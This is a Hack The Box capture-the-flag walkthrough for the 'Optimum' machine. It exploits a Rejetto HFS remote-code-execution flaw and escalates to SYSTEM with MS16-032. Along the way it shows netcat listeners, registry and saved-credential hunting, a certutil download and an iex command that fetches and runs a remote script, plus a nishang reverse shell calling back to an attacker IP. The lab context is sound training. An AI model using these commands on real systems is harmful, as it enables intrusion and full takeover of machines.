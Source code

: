 # Optimum [HTB]()
![optimum-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/optimum-01.png)


## Recon

I start by adding the target to `/etc/hosts` :

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/hosts-02.png)

From here i use `nmap` to scan the target:

```bash
nmap -sC -sV -A -p- optimum.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/nmap-res-03.png)


We have a single port open, appears to be running an HTTP file server. Lets take a look at it.


### HFS Port 80


Lets open the site through our browsers at `http://optimum.htb`

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/site-04.png)


No files are hosted on the site at the moment. However, two things jump to my mind, the login link, and 
the version at the buttom. We could try to break the authintication logic, but if we hover over the 
version link we can see the file server is running `Rejetto`, which can also be seen from the page source:

![rejjeto-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/rejjeto-05.png)

If we search Goolge for exploits we can find an RCE exploit from [ExploitDB](https://www.exploit-db.com/exploits/39161). The script looks like Python 2, it says we need to have a web server hosting `nc.exe`, 
and we need to setup a listener manually. Lets give it a shot. 

After i download the file, i update my local IP and port information:

![exploit-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/exploit-06.png)

Now i grab a copy of `/usr/share/windows-resources/binaries/nc.exe` to my current working directory 
and start a Python web server with:

```bash
python3 -m http.server 80
```

I then start my listener with:

```bash
rlwrap nc -lnvp 443
```

Now I execute the exploit with:

```
python2 rejetto_rce.py optimum.htb 80
```

![shell-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/shell-07.png)

After a couple of executions i get a shell. First run it grabbed `nc.exe` from my server, second time 
it connected with the shell. 


## Privilege Escalation


If we try to catch quick wins by checking privs with:

```cmd
whoami /priv
```

We dont get anything useful. Or if we look for saved credentials with:

```cmd
cmdkey /list
```

Again, nothing there. 


Having a look at the user's home directory and `AppData` folder, nothing interesting comes up. 
No unusual software. No interesting config files. I also checked our user's group membership, nothing useful. 

If we try to open a PowerShell prompt with `powershell -ep bypass`, the shell connection freezes until 
we terminate it and re-execute the exploit. 

If we try to hunt for stored password in the registry with:

```cmd
reg query HKLM /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s
```

Nothing comes up. 


So i decided to generate `systeminfo` output and run [windows exploit suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) againts it. 


![sysinfo-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/sysinfo-08.png)


We are up againts an X64 Windows 2012 R2 server. The exploit suggester returned quite a lot of potential 
kernel exploits. I tried a few, but they didnt work for me. 


So I decided to enumerate the system deeper, i tried finding lenient service permission with [accesschk64](https://github.com/phackt/pentest/blob/master/privesc/windows/accesschk64.exe):


```cmd
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```


Nothing came up, so i tried to look for weak regitry ACL with:

```cmd
accesschk.exe /accepteula "authenticated users" -kvuqsw hklm\System\CurrentControlSet\services
```

Nothing interesting came from that. I also tried running `WinPeas` but this froze the shell connection, 
and it appears the process gets hung and never terminitates. 

I tried looking at running services with:

```cmd
tasklist /SVC
```

Again, no leads came from that. I also tried looking at startup applications with:

```cmd
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
```

There were no startup tasks running as SYSTEM. 


At this point i decided to take a step back. I didnt find any third party software on the target, 
no misconfiguration of services, or file permissions. No saved credentials, no weak user privileges, 
no system tasks, no system services, Powershell freezes the connection, WinPEAS hangs indefinitely, 
what to do? 

Then i thought, this is a 2012 R2 server, the escalation must be a kernel exploit. So i went back to 
the `windows-exploit-suggester` output from before. I tried different exploits, and once again, nothing 
worked for me. i spent quite some time here.  

Primarly, i was interested in the `ms16-135` exploit, which is supposed to work for most x64-bit Windows
machines, which our target is. But instad, the exploit terminated saying, our machine's architecture was 32-bit. 

There was another exploit i tried a few times, `ms16-032`:

![exploit-suggester-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/exploit-suggester-09.png)

Previously, i tried the `metasploit` version, this failed so i decided to move on. However this time, 
i found a PowerShell version of the exploit [here](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1). 


If we take a look at the source code, we can see we need to invoke the function and specify a command to run as SYSTEM:

![exploit-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/exploit-10.png)

We can host nishang's reverse powershell script on a python server, setup a listener and run the exploit. 

First step, download the exploit to you kali, and invoke the funciton at the buttom:

![invoke-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/invoke-11.png)

```powershell
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.42/rshell.ps1')"
```

Next, download [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script to your kali.

Add the following line at the end of the script:

![nishang-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/nishang-12.png)

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.42 -Port 9001
```

Now, from the target, download the exploit with:

```cmd
certutil -urlcache -f http://10.10.14.42/ms16-032.ps1 ms16-032.ps1
```

Setup the listener on you kali:

```bash
rlwrap -lnvp 9001
```

Then, use the 32-bit version of powershell to execute the exploit:

```cmd
C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe "C:\Users\kostas\Desktop\ms16-032.ps1"
```

This should give you a shell as the SYSTEM:

![root-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Optimum/img/root-13.png)

